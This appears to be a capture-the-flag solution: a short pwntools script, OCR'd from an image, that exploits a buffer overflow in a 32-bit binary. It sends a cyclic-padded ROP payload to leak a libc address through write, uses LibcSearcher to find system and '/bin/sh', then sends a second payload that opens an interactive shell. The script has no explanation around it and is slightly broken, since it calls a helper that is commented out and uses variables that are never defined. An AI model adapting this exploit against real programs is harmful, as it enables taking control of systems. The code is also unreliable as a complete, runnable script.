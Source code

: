 ```

rl = lambda : p.recvline()

# rul2 = lambda : u32(p.recv(4))

  

s = lambda str: p.send(str)

sl = lambda str: p.sendline(str)

sa = lambda a,b: p.sendafter(a,b)

sla = lambda a,b: p.sendlineafter(a,b)

libc_base = lambda addr,name:addr-libc.dump(name)

go = lambda : p.interactive()

  
  

# 0x08048443 : pop ebp ; ret

# 0x08048442 : pop ebx ; pop ebp ; ret

# 0x0804855c : pop ebx ; pop esi ; pop edi ; pop ebp ; ret

# 0x08048344 : pop ebx ; ret

# 0x0804855e : pop edi ; pop ebp ; ret

# 0x0804855d : pop esi ; pop edi ; pop ebp ; ret

# 0x08048199 : ret

  

pay=cyclic(0x8c)+p32(plt)+p32(sym)+p32(1)+p32(got)+p32(4)

sl(pay)

  

via=rul2()

print(hex(via))

libc=LibcSearcher("write",via)

  

libc_base=libc_base(via,"write")

  

system=libc_base+libc.dump("system")

binsh=libc_base+libc.dump("str_bin_sh")

  

sl(cyclic(0x8c)+p32(system)+p32(0x8048199)+p32(sym)+p32(binsh))
```